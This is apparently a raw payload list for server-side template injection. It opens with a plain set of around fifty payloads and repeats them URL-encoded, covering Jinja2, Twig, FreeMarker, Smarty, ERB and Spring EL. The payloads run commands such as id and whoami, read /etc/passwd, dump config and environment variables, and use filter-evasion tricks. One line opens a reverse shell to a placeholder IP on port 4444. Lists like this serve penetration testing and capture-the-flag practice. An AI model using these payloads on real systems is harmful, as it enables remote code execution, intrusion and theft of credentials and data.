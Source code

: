 {{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}} # Search for Popen process, use payload below change 227 to index of Popen
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"/etc/passwd\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
%7B%7B2%2A2%7D%7D%5B%5B3%2A3%5D%5D%0A
%7B%7B3%2A3%7D%7D%0A
%7B%7B3%2A%273%27%7D%7D%0A
%3C%25%3D%203%20%2A%203%20%25%3E%0A
%24%7B6%2A6%7D%0A
%24%7B%7B3%2A3%7D%7D%0A
%40%286%2B5%29%0A
%23%7B3%2A3%7D%0A
%23%7B%203%20%2A%203%20%7D%0A
%7B%7Bdump%28app%29%7D%7D%0A
%7B%7Bapp.request.server.all%7Cjoin%28%27%2C%27%29%7D%7D%0A
%7B%7Bconfig.items%28%29%7D%7D%0A
%7B%7B%20%5B%5D.class.base.subclasses%28%29%20%7D%7D%0A
%7B%7B%27%27.class.mro%28%29%5B1%5D.subclasses%28%29%7D%7D%0A
%7B%7B%20%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%20%7D%7D%0A
%7B%7B%27%27%2E%5F%5Fclass%5F%5F%2E%5F%5Fbase%5F%5F%2E%5F%5Fsubclasses%5F%5F%28%29%5B227%5D%28%27cat%20%2Fetc%2Fpasswd%27%2C%20shell%3DTrue%2C%20stdout%3D%2D1%29%2Ecommunicate%28%29%7D%7D
%7B%25%20for%20key%2C%20value%20in%20config.iteritems%28%29%20%25%7D%3Cdt%3E%7B%7B%20key%7Ce%20%7D%7D%3C/dt%3E%3Cdd%3E%7B%7B%20value%7Ce%20%7D%7D%3C/dd%3E%7B%25%20endfor%20%25%7D%0A
%7B%7B%27a%27.toUpperCase%28%29%7D%7D%20%0A
%7B%7B%20request%20%7D%7D%0A
%7B%7Bself%7D%7D%0A
%3C%25%3D%20File.open%28%27/etc/passwd%27%29.read%20%25%3E%0A
%3C%23assign%20ex%20%3D%20%22freemarker.template.utility.Execute%22%3Fnew%28%29%3E%24%7B%20ex%28%22id%22%29%7D%0A
%5B%23assign%20ex%20%3D%20%27freemarker.template.utility.Execute%27%3Fnew%28%29%5D%24%7B%20ex%28%27id%27%29%7D%0A
%24%7B%22freemarker.template.utility.Execute%22%3Fnew%28%29%28%22id%22%29%7D%0A
%7B%7Bapp.request.query.filter%280%2C0%2C1024%2C%7B%27options%27%3A%27system%27%7D%29%7D%7D%0A
%7B%7B%20%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B40%5D%28%27/etc/passwd%27%29.read%28%29%20%7D%7D%0A
%7B%7B%20config.items%28%29%5B4%5D%5B1%5D.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B40%5D%28%22/etc/passwd%22%29.read%28%29%20%7D%7D%0A
%7B%7B%27%27.__class__.mro%28%29%5B1%5D.__subclasses__%28%29%5B396%5D%28%27cat%20/etc/passwd%27%2Cshell%3DTrue%2Cstdout%3D-1%29.communicate%28%29%5B0%5D.strip%28%29%7D%7D%0A
%7B%7Bconfig.__class__.__init__.__globals__%5B%27os%27%5D.popen%28%27ls%27%29.read%28%29%7D%7D%0A
%7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28request.args.input%29.read%28%29%7D%7D%7B%25endif%25%7D%7B%25endfor%25%7D%0A
%7B%24smarty.version%7D%0A
%7Bphp%7Decho%20%60id%60%3B%7B/php%7D%0A
%7B%7B%5B%27id%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7B%5B%27cat%5Cx20/etc/passwd%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7B%5B%27cat%24IFS/etc/passwd%27%5D%7Cfilter%28%27system%27%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5Brequest.args.usc%2A2%2Crequest.args.class%2Crequest.args.usc%2A2%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5B%22_%22%2A2%2C%22class%22%2C%22_%22%2A2%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%5B%22__%22%2C%22class%22%2C%22__%22%5D%7Cjoin%29%7D%7D%0A
%7B%7Brequest%7Cattr%28%22__class__%22%29%7D%7D%0A
%7B%7Brequest.__class__%7D%7D%0A
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22new%20java.lang.String%28%27xxx%27%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22whoami%5C%5C%5C%22%29%3B%20x.start%28%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22netstat%5C%5C%5C%22%29%3B%20org.apache.commons.io.IOUtils.toString%28x.start%28%29.getInputStream%28%29%29%5C%22%29%7D%7D%0A
%7B%7B%27a%27.getClass%28%29.forName%28%27javax.script.ScriptEngineManager%27%29.newInstance%28%29.getEngineByName%28%27JavaScript%27%29.eval%28%5C%22var%20x%3Dnew%20java.lang.ProcessBuilder%3B%20x.command%28%5C%5C%5C%22uname%5C%5C%5C%22%2C%5C%5C%5C%22-a%5C%5C%5C%22%29%3B%20org.apache.commons.io.IOUtils.toString%28x.start%28%29.getInputStream%28%29%29%5C%22%29%7D%7D%0A
%7B%25%20for%20x%20in%20%28%29.__class__.__base__.__subclasses__%28%29%20%25%7D%7B%25%20if%20%22warning%22%20in%20x.__name__%20%25%7D%7B%7Bx%28%29._module.__builtins__%5B%27__import__%27%5D%28%27os%27%29.popen%28%22python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ip%5C%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22/bin/cat%5C%22%2C%20%5C%22flag.txt%5C%22%5D%29%3B%27%22%29.read%28%29.zfill%28417%29%7D%7D%7B%25endif%25%7D%7B%25%20endfor%20%25%7D%0A
%24%7BT%28java.lang.System%29.getenv%28%29%7D%0A
%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%27cat%20etc/passwd%27%29%7D%0A
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%2899%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28116%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2847%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%28116%29%29.concat%28T%28java.lang.Character%29.toString%2899%29%29.concat%28T%28java.lang.Character%29.toString%2847%29%29.concat%28T%28java.lang.Character%29.toString%28112%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28115%29%29.concat%28T%28java.lang.Character%29.toString%28115%29%29.concat%28T%28java.lang.Character%29.toString%28119%29%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D%0A
